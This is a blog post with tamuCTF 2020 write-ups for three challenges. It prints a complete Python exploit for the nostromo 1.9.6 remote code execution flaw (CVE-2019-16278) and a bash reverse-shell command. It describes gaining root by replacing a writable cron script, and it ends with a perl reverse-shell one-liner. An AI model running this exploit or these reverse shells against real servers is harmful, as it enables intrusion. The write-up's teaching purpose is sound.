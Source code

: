 ```yaml
---
layout: blogpost
title:  "tamuCTF - Other Writeups"
date:   2020-03-24 03:32:01 -0300
categories: ctf
---
```

## Category: 
Network/Pentest
## Difficulty: 
Medium-Hard
## Challenge: 
My First Blog
## Description: 
Here is a link to my new blog!  I read about a bunch of exploits in common server side blog tools so I just decided to make my website static.  Hopefully that should keep it secure. The flag is in a folder only readable by root!
<br>
## Solution:

First things first I ran an nmap scan on the server to figure out what webserver the box was running
<br>
```console
Nmap 7.80 scan initiated Fri Mar 20 19:29:57 2020 as: nmap -sV -sC -oN myblog 172.30.0.2
Nmap scan report for 172.30.0.2
Host is up (0.080s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nostromo 1.9.6
|_http-generator: Hugo 0.54.0
|_http-server-header: nostromo 1.9.6
|_http-title: My first blog!
MAC Address: 02:42:7D:36:C6:F0 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Fri Mar 20 19:30:13 2020 -- 1 IP address (1 host up) scanned in 16.32 seconds
```
<br>We can see that its running a nostromo 1.9.6 server. Getting the initial shell was quite easy having rooted a hackthebox machine with the same web server and version. Theres a vulnerability which lets you send a malicious post request that executes any code you want on the machine. We can find an exploit crafted for this by running
<br>

```console 
root@kali: searchsploit nostromo

nostromo 1.9.6 - Remote Code Execution  - exploits/multiple/remote/47837.py
```
<br>
Now that we know theres a RCE in this specific web server, we can run our exploit. I ran this command where exploit.py is the script included below, while running a netcat listener on my local machine and got a reverse shell once the request finished. 
<br>
```bash
python exploit.py 172.30.0.2 80 'bash -i >& /dev/tcp/my_ip/9000 0>&1'
```
<br>
```python
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

#!/usr/bin/env python

import sys
import socket

art = """

                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    
"""

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
    response = ""
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
            
    except:
        pass
    return response

def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/bash HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)

if __name__ == "__main__":

    print(art)
    
    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]

        cve(target, port, cmd)
   
    except IndexError:
        print(help_menu)
```
<br>Now that we have our low privlege shell, we need to probe the system and try to escalate our privleges. When we get onto the system I noticed that we were in /bin, so I looked around the directory and noticed that /bin/pidof was symlinked to /sbin/killall5 with other execute privleges... This could prove to be useful. I then checked for processes running as root to get an idea for where our privesc may lie, and got the processes
<br>
```console
bash /tmp/start.sh
cron
sleep 1000000
```
<br>After taking a look at the start.sh script I saw that the system will run the webserver, cron, and then sleep for 1 million seconds. Next I took a look at the crontab and realized where the privesc would be. The system runs /usr/bin/healthcheck every minute as root which would be fine... unless group and other were able to modify that file...
<br>

![crontab_output](/assets/images/ctf/tamu2020/1st_blog_crontab.png)
<br>We modify /usr/bin/healthcheck locally to run a reverse shell, host it on a webserver and put the modified version onto the system and then kill the sleep processes which should run the cronjob again instantly, and within moments we have our root shell! 

![root_shell  ](/assets/images/ctf/tamu2020/1st_blog_exploit_sucess.PNG)

The flag is in /root/flag.txt which we can now print and we get gigem{l1m17_y0ur_p3rm15510n5}
<br>
## Category: 
Network/Pentest
## Difficulty: 
Easy
## Challenge: 
Listen
## Description: 
Just listen
<br>
## Solution:

This challenge was pretty straightforward. We are given a ovpn file and connect to their network. After that I opened up wireshark to listen on the tun0 interface and eventually got a packet which contained the flag.
![listen_flag](/assets/images/ctf/tamu2020/listen_flag.PNG)
<br>


## Category: 
Misc
## Difficulty: 
Easy
## Challenge: 
Blind
## Description: 
nc challenges.tamuctf.com 3424
<br>
## Solution:

```console
Execute: whoami
0
Execute: ls
0
Execute: ip addr
127
```
<br>At this point it seems like were just getting the return value as 127 is the unix standard error number for "command not found" so we need to find a command which will let us reverse shell. After trying python, python3, python2, nc, and netcat, I tried perl which just hung instead of sending an error message, so it was waiting for more input. I exited the shell and sent this in a new session
<br>
```perl
perl -e 'use Socket;$i="my_ip";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec(
"/bin/sh -i");};
```
<br>I popped a reverse shell and ran cat flag.txt to get gigem{r3v3r53_5h3ll5}